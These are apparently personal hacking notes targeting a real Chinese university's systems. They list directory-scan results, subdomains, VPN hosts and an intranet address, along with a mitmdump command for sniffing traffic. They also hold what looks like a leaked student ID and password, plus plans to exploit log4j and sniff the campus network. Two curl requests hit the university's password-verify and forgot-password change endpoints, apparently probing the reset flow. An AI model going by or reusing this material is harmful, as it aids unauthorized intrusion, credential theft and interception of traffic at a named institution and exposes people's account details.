 ```yaml
---
{"category": "hacking", "created": "2021-12-22T05:45:58.000Z", "date": "2021-12-22 05:45:58", "description": "The article discusses hacking attempts on lixin.edu.cn and the use of tools such as dirbuster and Kali Linux to find vulnerabilities. It also includes a HTTP request command for changing passwords on the server.", "modified": "2022-08-18T16:04:01.502Z", "tags": ["freelancer", "hack"], "title": "The Hack (Get Password And Tests)"}

---
```


dirbuster has found something over  "http://oa.lixin.edu.cn//test/"

+ http://oa.lixin.edu.cn//admin (CODE:301|SIZE:237)

+ http://oa.lixin.edu.cn//css (CODE:301|SIZE:235)

+ http://oa.lixin.edu.cn//help (CODE:301|SIZE:236)

+ http://oa.lixin.edu.cn//images (CODE:301|SIZE:238)

+ http://oa.lixin.edu.cn//js (CODE:301|SIZE:234)

+ http://oa.lixin.edu.cn//setup (CODE:301|SIZE:237)

+ http://oa.lixin.edu.cn//template (CODE:301|SIZE:240)

+ http://oa.lixin.edu.cn//test (CODE:301|SIZE:236)

+ http://oa.lixin.edu.cn///admin (CODE:301|SIZE:237)

+ http://oa.lixin.edu.cn///help (CODE:301|SIZE:236)

+ http://oa.lixin.edu.cn///images (CODE:301|SIZE:238)

+ http://oa.lixin.edu.cn///script (CODE:301|SIZE:238)

suspicious:

http://oa.lixin.edu.cn/oanew/sys/taskcenterapp/*default/index.do

portal (even in the internet):

http://202.121.255.3:8080/portal

Scan this website with kali linux.

The Intranet Gateway For Campus: (maybe less hops?)

https://app.topsec.com.cn

mitmdump --mode socks5 --listen-port 8050 -w logs.log --flow-detail 3 --set stream_websocket=true

pdvpn.lixin.edu.cn

pdvpn2.lixin.edu.cn

vpn.lixin.edu.cn

vpn2.lixin.edu.cn

xxb.lixin.edu.cn/jszl/57078.htm

201960630:CHENweiyi0519

https://cas.paas.lixin.edu.cn/cas/login?service=https%3A%2F%2Flxjw.lixin.edu.cn%2Fcas%2Flogin

https://security-center.paas.lixin.edu.cn/find-pwd

20039370

missing puzzle for changing password:

trial user:

201960249

found russia hacker's kali tool site: https://en.kali.tools/all/

apparently we have some issue with log4j and this could be our way in, the damn server.

sniffing the whole damn campus is only possible if we know how to get into the same subnet of all people.

have searched related websites with site:lixin.edu.cn, could get more if keep doing so, using dnsenum.

to get all site links with proper titles, we need to use playwright.

nessus scanner has that 16 ips limitation, we need to crack/patch it first.

to master kali linux, recommend to scrape kali_tools (https://tools.kali.org/) and tutorialspoint (https://www.tutorialspoint.com/kali_linux/index.htm) for kali, or just simply using manpage.

cisco router is untouched till now. need we to scan it?

(intermediate ip addresses)

curl 'https://personal-security-center.paas.lixin.edu.cn/api/v1/personal/open/passwordStrategy/verify' \

-H 'Connection: keep-alive' \

-H 'sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="98", "Google Chrome";v="98"' \

-H 'Accept: application/json, text/plain, */*' \

-H 'Content-Type: application/json;charset=UTF-8' \

-H 'sec-ch-ua-mobile: ?0' \

-H 'User-Agent: Mozilla/5.0 (X11; CrOS aarch64 14371.0.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4729.0 Safari/537.36' \

-H 'sec-ch-ua-platform: "Chrome OS"' \

-H 'Origin: https://security-center.paas.lixin.edu.cn' \

-H 'Sec-Fetch-Site: same-site' \

-H 'Sec-Fetch-Mode: cors' \

-H 'Sec-Fetch-Dest: empty' \

-H 'Referer: https://security-center.paas.lixin.edu.cn/' \

-H 'Accept-Language: en-US,en;q=0.9' \

--data-raw '{"password":"abcdefABC","userId":""}' \

--compressed

curl 'https://personal-security-center.paas.lixin.edu.cn/api/v1/personal/open/forgotPassword/changePassword' \

-H 'Connection: keep-alive' \

-H 'sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="98", "Google Chrome";v="98"' \

-H 'Accept: application/json, text/plain, */*' \

-H 'Content-Type: application/json;charset=UTF-8' \

-H 'sec-ch-ua-mobile: ?0' \

-H 'User-Agent: Mozilla/5.0 (X11; CrOS aarch64 14371.0.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4729.0 Safari/537.36' \

-H 'sec-ch-ua-platform: "Chrome OS"' \

-H 'Origin: https://security-center.paas.lixin.edu.cn' \

-H 'Sec-Fetch-Site: same-site' \

-H 'Sec-Fetch-Mode: cors' \

-H 'Sec-Fetch-Dest: empty' \

-H 'Referer: https://security-center.paas.lixin.edu.cn/' \

-H 'Accept-Language: en-US,en;q=0.9' \

--data-raw '{"confirmPassword":"abc123ABC","newPassword":"abc123ABC","nonce":"YzhhZmZjYzktNWQ3Ny00MGU1LTg0ODgtYTYzZTMzMDZkMjU0XzE2NDAyNjg5MzcyNTY"}' \

--compressed
